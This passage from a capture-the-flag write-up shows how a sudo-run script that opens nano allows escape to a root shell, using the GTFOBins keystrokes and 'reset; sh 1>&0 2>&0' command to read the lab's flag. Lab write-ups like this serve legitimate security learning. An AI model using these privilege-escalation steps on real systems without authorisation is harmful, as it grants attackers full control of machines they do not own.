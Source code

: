 The `nano` command has an associated
[GTFOBin](https://gtfobins.github.io/gtfobins/nano/#sudo){:target="_blank"}{:rel="noopener noreferrer"}!
Remember we're running `rootkit.sh` with `sudo` which
means we'll also run `nano` with `sudo`

The corresponding entry says we should run the following
to get a `root` shell

```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
> ^R^X is another way of saying ctrl+R and ctrl+X
{: .prompt-info }

Let's try this

```bash
sudo /bin/bash /opt/rootkit.sh
```

![nano gtfo](/images/gallery/nano-gtfo.png)

When we run this, it should give us a `root` shell which
will let us read the flag!

![root flag](/images/gallery/root-flag.png)
